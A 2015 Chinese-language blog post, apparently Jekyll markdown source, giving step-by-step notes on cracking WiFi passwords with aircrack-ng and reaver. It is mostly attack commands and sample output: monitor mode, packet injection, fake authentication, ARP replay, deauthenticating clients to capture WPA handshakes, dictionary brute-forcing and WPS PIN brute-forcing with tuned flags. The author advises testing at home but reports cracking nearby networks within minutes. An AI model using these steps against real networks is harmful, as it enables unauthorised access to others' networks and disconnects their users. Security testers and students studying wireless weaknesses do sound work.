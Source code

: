 ```yaml
---
layout: post
title:  "WIFI密码破解笔记"
date:   2015-10-31 09:15:52
comments: true
categories: Tech
---
```

相对于前一段时间脆弱的WEP加密路由器而言，当今的路由器加密方式也大都改变为WPA/WPA2，使得无线路由器的破解难度增加。
虽然如此，但还是有很多漏洞层出不穷，如针对路由器WPS的漏洞。退一步来说，即使加密算法无懈可击，我们还可以针对安全防护中最脆弱的部分——人——来进行破解。
人的想象力实在是匮乏的很，往往设置密码来来回回就是那么几类，用一个常见的弱口令字典，往往就能在10分钟左右把其密码暴力破解出来。
这里提供己种常见的WIFI破解方式，其中WEP破解因为已经过时，所以只是在提到的时候一笔带过，主要记录的是抓握手包然后暴力破解的
通用方法，末尾也会提及到WPS的破解方式。注意这仅仅作为个人实验用，最好在自己的家庭网络中测试，以免给别人带来不便。  

### 准备工具:  
> - Linux操作系统，Windows下可以用虚拟机代替。
> - [aircrack-ng][aircrack]工具集
> - 安装reaver（可选）

 
### Step1. 查看网卡信息，记录无线网卡MAC地址

    #ifconfig -a (以管理员权限运行，下同)

这里假设本机MAC地址为：00:11:22:33:44:55

### Step2. 开启无线网卡，设置为监听模式  
    #airmon-ng start wlan0  [信道号]

其中信道号可以先不填,开启后可以ifconfig看到多了个接口mon0，即为监听接口。值得一提的是，无线网卡的监听模式其实
就相当于有线情况下的混杂模式（Promiscuous Mode）。
  
### Step3. 搜索周围的无线网络  
    #airodump-ng mon0

这条命令会在mon0接口上不断切换信道来搜索附近的wifi热点，在结果中
找到待破解的AP，记录BSSID（这里假设为AA:BB:CC:DD:EE:FF），信道号（这里假定为 6），ESSID（设为myWiFi)

### Step4. 测试无线设备的注入

    aireplay-ng -9 -e myWiFi -a AA:BB:CC:DD:EE:FF mon0

其中

    -9 表示注入测试
    -e myWiFi 是无线网络名字
    -a AA:BB:CC:DD:EE:FF 是接入点的MAC地址
    mon0 是无线接口名字
    返回结果的最后一行表示注入成功率，一般比较高，如果很低表示离AP太远了  

### Step5. 开始抓包

    airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w output mon0

### Step6. 虚拟认证（可选，只在AP为WEP加密的时候才有效）

这里值得一提的是，从前为了破解WEP加密的WIFI，我们需要收集足够多的IVS。如果运气好的话，通常40位WEP（64位密钥）用30万IVs就可以破解，
104位WEP（128位密钥）有150万IVs可以破解，运气不好的话需要更多。为此我们需要用ARP注入的方式加开扑捉IVs的速度。但对于WPA/WPA2我们则没有类
似破解办法，只能通过扑捉握手包来进行暴力破解。 为了AP能够接收packet，源MAC地址必须已经连接。如果你正在注入的源MAC地址没有连接，
AP会忽略所有包并发送一个“DeAuthentication“包。这种情况下，不会有新的IVs被创建。
缺少和AP的连接是注入失败的一个常见原因，记住：你用来注入的MAC地址必须连接AP（通过虚拟认证或者使用已经连接的客户端MAC）

虚拟认证：  

    aireplay-ng -1 0 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    -1 表示虚拟认证（fake authentication）
    0 表示重新认证的时间（秒）
    -e myWiFi 是无线网络名称
    -a AA:BB:CC:DD:EE:FF 是接入点MAC地址
    -h 00:11:22:33:44:55 是我们网卡的MAC地址
    mon0是无线接口名称

成功有类似下面的输出:

    18:18:20  Sending Authentication Request
    18:18:20  Authentication successful
    18:18:20  Sending Association Request
    18:18:20  Association successful :-)

另外还可以:

    aireplay-ng -1 6000 -o 1 -q 10 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    6000 - 每6000秒重新认证一次. 长周期同时也会导致发送keep alive packets
    -o 1 - 一次仅发送一组包，默认发送多组，这样会对某些AP导致混乱
    -q 10 - 每10秒发送一次keep alive packets

成功有类似下面输出:

    18:22:32  Sending Authentication Request
    18:22:32  Authentication successful
    18:22:32  Sending Association Request
    18:22:32  Association successful :-)
    18:22:42  Sending keep-alive packet
    18:22:52  Sending keep-alive packet

### Step7. ARP请求重播攻击（可选，只在虚拟认证成功时才有效）

airodump抓包速度比较慢，为了加速包的产生，我们可以使用传统的ARP请求重播攻击（ARP request replay attack）来快速生成IVs（Initialization Vectors）：

    aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

### Step8. 攻击目标客户端使其掉线，获取握手包

和WEP破解最显著的区别是，由于WPA需要暴力破解，因此抓的包里必须至少包含一个握手包，
我们可以发送一种称之为“Deauth”的数据包来将已连接至无线路由器的合法无线客户端断开，此时客户端就会重新连接无线路由器，
我们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。命令为：

    aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c clientMAC mon0

其中:

    -0 表示采用deauth攻击模式，后卖弄加上攻击次数，这里设置为1，可以根据情况设置为1-10不等（不要设太多不然对方会频繁掉线）
    -a 为AP的MAC ， -c为已连接的客户端MAC

### Step9. 暴力破解抓下来的包

一旦捕捉到WPA handshake，我们就可以开始进行破解了：

    aircrack-ng -b AA:BB:CC:DD:EE:FF output*.cap -w yourdic

其中:

    -b AA:BB:CC:DD:EE:FF 选择了一个我们感兴趣的接入点，这是可选的，因为我们捕捉数据的时候就已经指定了此AP而忽略其他.
    output*.cap 选择我们在Step5里用airodump抓下来的包.
    -w 指定一个破解的字典。破解的效率和字典的选择有很大关系，一般选用弱口令字典，因为强口令破解时间太长，得不偿失。

许多人家里的WIFI都是常见的格式，车牌、手机、名字、拼音等等，从我破解周围WIFI的结果来看，使用通用的WPA/PSK字典来破解，时间往往不会
超过10分钟。这里说点题外话，像用预先计算好的像彩虹表一样的配对表（Pairwise Master Keys）来进行破解也是不行的，因为口令都用ESSID加了盐。所以还是得乖乖抓握手包。

 
### 其他方法（WPS破解）：

除了这样通用的暴力破解外，我们还可以用reaver来破解带WPS的路由器的PIN码，但是对信号的要求很高，如果AP的信号很强，
或者自己的无线网卡很给力，也可以采用这种方式。优点是字典无关，无论路由器密码多强都能破解出来，在我的笔记本上尝试破解了自己家的WIFI密码，
花费的时间大概为5个小时。

以上述AP为例，可以用命令行运行

    reaver  -i  mon0  -b AA:BB:CC:DD:EE:FF  -a  -S  -vv  -d2  -t 5 -c 1

其中：

    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d 即delay每穷举一次的闲置时间 预设为1秒
    -t 即timeout每次穷举等待反馈的最长时间
    -c指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9参数防止路由僵死  

示例：  

    reaver -i mon0 -b MAC -a -S –d9 –t9 -vv -c 1 

    应因状况调整参数
    目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
    目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
    目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

[aircrack]: http://www.aircrack-ng.org/doku.php?id=simple_wep_crack
